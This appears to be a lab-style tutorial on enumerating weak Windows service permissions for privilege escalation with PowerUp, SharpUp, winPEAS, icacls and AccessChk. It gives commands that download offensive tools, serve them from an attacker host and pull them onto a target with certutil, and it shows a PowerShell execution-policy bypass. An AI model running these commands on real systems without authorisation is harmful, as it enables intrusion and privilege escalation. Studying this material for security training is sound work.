

### **Enumerating service permissions with PowerUp**

1.  If you don’t already have PowerUp, download it:  
    `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`  
    
    
    
2.  Host the PowerUp.ps1 script using Python:  
    `python3 -m http.server 8000`  
    
    
    
3.  Transfer the script to the target machine using certutil:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/PowerUp.ps1 PowerUp.ps1`  
    
    
    
4.  To bypass the PowerShell execution policy and run PowerUp.ps1:  
    `powershell -ep bypass -c "& {.\PowerUp.ps1}"`  
    
    
    

### **Enumerating service permissions with SharpUp**

[SharpUp](https://github.com/GhostPack/SharpUp) is a tool for identifying Windows service misconfigurations commonly used in privilege escalation.

1.  If you don’t already have SharpUp, download it:  
    `wget https://raw.githubusercontent.com/r3motecontrol/Ghostpack-CompiledBinaries/master/SharpUp.exe`  
    
    
    
2.  Host the executable using Python:  
    `python3 -m http.server 8000`  
    
    
    
3.  Transfer it to the target machine with certutil:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/SharpUp.exe SharpUp.exe`  
    
    
    
4.  Run all checks with the `audit` command. In this example, the tool identified the `filepermsvc` service as vulnerable:  
    `.\SharpUp.exe audit`  
    
    
    

### **Enumerating service permissions with winPEAS**

1.  Since the target runs a 64-bit OS, host the 64-bit winPEAS binary with Python:  
    `python3 -m http.server 8000`

    

    **Note:** You can confirm system architecture with:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Transfer winPEAS to the target machine:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/winPEASx64.exe winPEASx64.exe`  
    
    
    
3.  Run winPEAS to search for weak service permissions:  
    `.\winPEASx64.exe`  

    

    **Note:** The “Services Information” section in winPEAS lists all services, their configurations, and potential security issues.
    

### **Enumerating weak service file permissions (icacls)**

1.  Review Microsoft’s [icacls documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) for details about permissions.  
    
    
    
2.  Check folder permissions for the service:  
    `icacls "C:\Program Files\File Permissions Service"`  
    
    

    **Note:** This shows that `BUILTIN\Users` have (RX) Read & Execute permissions.
    
3.  Check permissions of the service binary itself:  
    `icacls "C:\Program Files\File Permissions Service\filepermservice.exe"`  
    
    

    **Note:** This shows that `Everyone` has (F) Full Control, allowing modification or deletion of the binary.
    

### **Enumerating weak service file permissions (AccessChk)**

1.  If you don’t have the Sysinternals Suite, download it from the official [Microsoft site](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).  

    

    **Note:** Confirm architecture (32/64-bit) with:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Host the binary with a Python HTTP server and transfer it:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/accesschk64.exe accesschk64.exe`  
    
    

    **Note:** With `accesschk` now on the target, we can enumerate permissions.
    
3.  View permissions on the service binary:  
    `.\accesschk64.exe -wvu "C:\Program Files\File Permissions Service\filepermservice.exe" -accepteula`  
    
    

    **Note:** This shows that `Everyone` has (RW) Read and Write permissions, granting the ability to modify or replace the service binary.